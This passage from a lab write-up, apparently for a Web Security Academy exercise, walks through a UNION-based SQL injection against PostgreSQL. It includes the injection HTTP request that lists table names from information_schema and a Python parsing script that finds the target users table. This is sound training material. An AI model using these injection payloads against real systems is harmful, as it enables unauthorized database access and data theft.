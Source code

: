 ```html
<tr>
	<th>
		version
	</th>
	<td>
		PostgreSQL 11.12 (Debian 11.12-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit
	</td>
</tr>
```

The database is PostgreSQL 11.12 on a Debian Linux machine.

### Table name & column name enumeration

Since we know the target database is PostgreSQL, we know we'll have to query the `information_schema` database to determine table names and column names.

```http
GET /filter?category=Pets'+UNION+SELECT+'table',TABLE_NAME+FROM+information_schema.tables-- HTTP/1.1
Host: acf01f921f3267cd803c0b19006e0075.web-security-academy.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
```

This request returned *many* table names in the web page, so we save the HTML to `file.html` and use the following Python snippet to extract just the table names and manually read through them to find the target table: `users_vhedkl`.

```python
from bs4 import BeautifulSoup                                                             

with open("file.html") as f:
	soup = BeautifulSoup(f, "html.parser")
	tds = soup.findAll("td")
	tds = [td.contents[0] for td in tds if td.contents[0][:3] != "pg_" and len(td.contents[0]) < 30]
	for td in tds:
		print(td)
```

```bash
$ python3 parse.py

...
products
foreign_table_options
users_vhedkl
foreign_servers
_pg_user_mappings
...
```
